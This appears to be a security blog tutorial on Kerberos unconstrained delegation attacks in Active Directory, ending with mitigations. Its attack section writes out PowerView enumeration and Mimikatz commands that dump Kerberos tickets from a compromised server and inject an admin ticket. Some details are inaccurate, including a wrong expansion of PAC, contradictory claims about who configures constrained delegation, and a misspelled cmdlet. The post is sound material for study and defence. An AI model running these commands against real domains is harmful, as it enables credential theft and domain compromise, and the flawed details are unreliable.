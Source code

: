 ```yaml
---
title: 'Delegation Attacks (PT2)'
date: '2021-06-09'
layout: post
tag: [Delegation, AD, Kerberos]
excerpt: >-
  Kerberos delegation attacks and their impact
description: >-
  Kerberos delegation attacks and their impact
image: '/images/posts/kerbgt-delegation-2/header.png'
thumb_image: '/images/posts/kerbgt-delegation-2/header.png'
style: code
---
```


# Introduction

In a previous blog post, we discussed [Kerberos Delegation Attacks](https://pwntales.com/blog/kerberos-delegation-part-1). 
We briefly explained the different attack types, compared them, and finally attacked the Constrained Delegation type.

In this blog post, we’ll move to the most dangerous delegation attack, which is named Unconstrained. We won’t analyze it much as it is similar to Constrained. However, the main differences between those two are:

1. Scope of delegation: Unconstrained delegation allows a service to impersonate a user to any other service, while constrained delegation restricts the services to which the specified server can act on behalf of a user.
2. Security: Unconstrained delegation is considered very dangerous because it allows a compromised service to impersonate any user without restrictions. Constrained delegation is considered safer because it restricts the services to which the specified server can act on behalf of a user.
3. Configuration: Unconstrained delegation requires domain administrator privileges to configure a domain account for delegation. Service administrators can configure constrained delegation.
4. Domain requirements: Unconstrained delegation can be configured in any domain, while constrained delegation requires domain administrator privileges to configure a domain account for delegation.
5. Compatibility: Unconstrained delegation is compatible with all versions of Windows, while constrained delegation requires Windows Server 2003 or later.

## How it works

- The user presents its TGT to the DC when requesting a service ticket.
- The DC opens the TGT and validates the PAC(Privilege Authorization Certificate) checksum. If the DC can open the ticket and the checksum, then the TGT is valid. The data in the TGT is copied to create the service ticket, and the DC places a copy of the user’s TGT into the service ticket.
- The service ticket is encrypted using the target service account’s NTLM hash and sent to the user (TGS-REP).
- The user connects to the server hosting the service on the appropriate port and presents the service ticket (AP-REQ). The service opens the service ticket using its NTLM password hash.

![](/images/posts/kerbgt-delegation-2/screenshot.jpg)

## Attack in motion

We can use the [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) Unconstrained module to search for unconstrained delegation in the domain.

```powershell
Get-NetComputer -Unconstrained #DC always appear but isnt useful for privesc
```

![](/images/posts/kerbgt-delegation-2/screenshot_1.jpg)

or with the Active Directory PowerShell module cmdlet

```powershell
Get-ADComputer -Filter {TrustedForDelegation -eq $true -and primarygroupid -eq 515} -Properties trustedfordelegation,serviceprincipalname,description
```

![](/images/posts/kerbgt-delegation-2/screenshot_2.jpg)

```powershell
Get-ADComputer -LDAPFilter ‘(userAccountControl:1.2.840.113556.1.4.803:=524288)’
```

![](/images/posts/kerbgt-delegation-2/screenshot_3.jpg)

Once we have found a server with Kerberos Unconstrained Delegation, we need to compromise the server with an admin or service account. Or social engineer a Domain Admin to connect on any service on the computer with unconstrained delegation.

Check if we have local admin access or not.

```powershell
Find-LocalAdminAccess
```

![](/images/posts/kerbgt-delegation-2/screenshot_4.jpg)

We have local admin access on the User-Server.  
Next, we can use PowerShell remoting to enter the session on the remote object and run [Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1) to grab all the tickets on the machine.

```powershell
Enter-PSSesion -ComputerName User-Server.first.local
```

![](/images/posts/kerbgt-delegation-2/screenshot_5.jpg)

Export tickets with Mimikatz

```powershell
Invoke-Mimikatz -Command privilege::debug;
Invoke-Mimikatz -command '"sekurlsa::tickets /export"'
```

![](/images/posts/kerbgt-delegation-2/screenshot_6.jpg)

Now, here we have a ticket available to us, and we must load it to memory

```powershell
Invoke-Mimikatz -command '"kerberos::ptt 0-60810000-admin@krbtgt~FIRST.LOCAL-FIRST.LOCAL.kirbi"'
```

![](/images/posts/kerbgt-delegation-2/screenshot_7.jpg)

And finally, after loading the ticket, we can confirm access to the CIFS service.

![](/images/posts/kerbgt-delegation-2/screenshot_8.jpg)

# Mitigations

Similar to constrained delegation, this type of attack can be mitigated a similar way

- Don’t use Kerberos Unconstrained Delegation. Configure the servers that require delegation with Constrained Delegation.
- Configure all elevated administrator accounts to be “Account is sensitive and cannot be delegated.”

![](/images/posts/kerbgt-delegation-2/screenshot_9.jpg)

- The **“Protected Users” group** mitigates this issue since delegation is not allowed for accounts in this group.

Caution, after the Protected-Users group account is upgraded, the domain won’t be able to authenticate using:

- Default credential delegation (CredSSP). Plain text credentials are not cached even when enabled by the **Allow delegating default credentials** Group Policy setting.
- Windows Digest. Plain text credentials are not cached even when Windows Digest is enabled.
- NTLM. The result of the NT one-way function, NTOWF, is not cached.
- Kerberos long-term keys. The keys from Kerberos initial TGT requests are typically cached so the authentication requests are not interrupted. For accounts in this group, Kerberos protocol verifies authentication at each request..
- Sign-in offline. A cached verifier is not created at sign-in.













































